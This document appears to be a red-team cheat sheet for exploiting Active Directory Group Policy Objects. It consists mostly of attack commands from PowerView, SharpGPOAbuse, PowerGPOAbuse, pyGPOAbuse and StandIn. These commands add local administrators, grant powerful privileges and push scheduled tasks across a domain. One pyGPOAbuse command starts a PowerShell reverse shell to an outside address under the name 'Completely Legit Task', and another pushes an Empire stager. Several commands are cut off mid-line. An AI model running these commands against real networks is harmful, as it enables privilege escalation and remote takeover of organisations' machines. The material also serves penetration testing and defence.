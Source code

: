 # Group Policy Objects (GPO) Exploitation

## Tools: Bloodhound, PowerGPOAbuse, SharpGPOAbuse, pyGPOAbuse, Powerview, StandIn

## Location stored: SYSVOL directory

### Creators of a GPO are automatically granted explicit Edit settings, delete, modify security, which manifests as CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner

### GPO Prioritization: Organization Unit > Domain > Site > Local

### GPO are stored in the DC in \\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\ , inside two folders User and Machine. If you have the right to edit the GPO you can connect to the DC and replace the files. Planned Tasks are located at Machine\Preferences\ScheduledTasks .

### Domain members refresh group policy settings every 90 minutes with a random offset of 0 to 30 minutes but it can locally be forced with the following command: 

    gpupdate /force .

## Finding vulnerable GPO

### Look a GPLink where you have the Write right.

    Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -like "*WriteProperty*" }

#### 1) runas /netonly /user:DOMAIN\AD_USERNAME cmd.exe

#### 2) dir \\DOMAIN\sysvol

#### 3) mmc

#### 4) File -> Add/Remove Snap-in

#### 5) Group Policy Management then click Add

#### 6) OK

#### 7) Navigate to GPO our user has permission to modify

#### 8) Right-click on GPO and select edit

### Add our account to local groups 

#### 1) Expand Computer Configuration 

#### 2) Expand Policies

#### 3) Expand Windows Settings

#### 4) Expand Security Settings

#### 5) Right-click on Restricted Groups and select Add Group

#### 6) Click browse, enter IT Support (example) and click Check Names

#### 7) Click OK twice

#### 8) On second filter, add Administrators and Remote Desktop Users groups

#### 9) Apply and OK then WAIT FOR 15 MINUTES FOR THE GPO TO BE APPLIED

## SharpGPOAbuse https://github.com/FSecureLABS/SharpGPOAbuse

#### 1) Build and configure SharpGPOAbuse

    Install-Package CommandLineParser -Version 1.9.3.15

    $ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.

####  2) Adding User Rights

    .\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight"

#### 3) Adding a Local Admin

    .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

#### 4) Configuring a User or Computer Logon script

    .\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents

#### 5) Configuring a Computer or User Immediate Task

### /!\ Intended to "run once" per GPO refresh, not run once per system

    .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command

    .\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\

## PowerGPOAbuse https://github.com/rootSySdk/PowerGPOAbuse

#### 1) Run the module

    PS> . .\PowerGPOAbuse.ps1

#### 2) Adding a localadmin

    PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

#### 3) Assign a new right

    PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

#### 4) Adding a New Computer/User script

    PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get

#### 5) Create an immediate task

    PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments

## pyGPOAbuse https://github.com/Hackndo/pyGPOAbuse

#### 1) Add john user to local administrators group (Password: H4x00r123..)

    ./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

#### 2) Reverse shell

    ./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

-powershell \
-command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\
-taskname "Completely Legit Task" \
-description "Dis is legit, pliz no delete" \
-user

## Powerview

#### 1) Enumerate GPO

    Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

#### 2) New-GPOImmediateTask to push an Empire stager out to machines via VulnGPO

    New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments

## StandIn https://github.com/FuzzySecurity/StandIn

#### 1) Add a local administrator

    StandIn.exe --gpo --filter Shards --localadmin user002

#### 2) Set custom right to a user

    StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege

#### 3) Execute custom command

    StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK
